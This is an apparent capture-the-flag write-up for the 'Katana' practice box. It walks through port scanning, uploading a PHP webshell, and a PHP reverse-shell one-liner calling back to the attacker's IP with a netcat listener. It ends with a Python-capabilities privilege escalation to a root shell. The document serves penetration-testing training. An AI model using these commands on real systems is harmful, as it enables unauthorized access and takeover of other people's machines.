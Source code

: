 # PG Play - Katana

#### Ip: 192.168.171.83
#### Name: Katana
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.83
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.070s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
8715/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -sC -sV 192.168.171.83 -p 21,22,80,7080,8088,8715
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.065s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-title: Did not follow redirect to https://192.168.171.83:7080/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Heading over to the site we find just a basic image, with no functionality:

![site.png](../assets/katana_assets/site.png)

Lets use Feroxbuster to see if we can discover any interesting directories against the HTTP ports:

![ferox.png](../assets/katana_assets/ferox.png)

Cool, the `/upload.html` directory seems interesting

![upload.png](../assets/katana_assets/upload.png)

Lets upload a copy of the wwwolf-php-webshell and see what we can do with it.

Once uploaded we see this message:

![moved.png](../assets/katana_assets/moved.png)

Ok interesting, looks like the file was uploaded, but I'm seeing a message that it's been moved to another server.

After some trial and error I found our script at http://192.168.171.83:8715/katana_webshell.php where I could confirm that we had execution on the target:

![host.png](../assets/katana_assets/host.png)

Lets grab a reverse shell one-liner from https://www.revshells.com/ and get a proper shell to work in:

### Exploitation

Because I know that the box plays nice with PHP, I'll use:

```text
php -r '$sock=fsockopen("192.168.45.197",443);exec("sh <&3 >&3 2>&3");'
```

Which gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.171.83] 56092
whoami
www-data
hostname
katana
python -c 'import pty;pty.spawn("/bin/bash")'


www-data@katana:/opt/manager/html$
```

From here I can from the local.txt flag in `/var/www`:

![user_flag.png](../assets/katana_assets/user_flag.png)

### Priviledge Escalation

Lets upload a copy of LinPEAS to the target to help enumerate a privilege escalation vector:

![transfer.png](../assets/katana_assets/transfer.png)

Cool, LinPEAS finds that Python has capabilities set. This should make for an easy privesc:

Lets run:

```text
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Which drops us into a root shell:

```text
www-data@katana:/tmp$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

We can now grab the proof.txt flag:

![root_flag.png](../assets/katana_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------

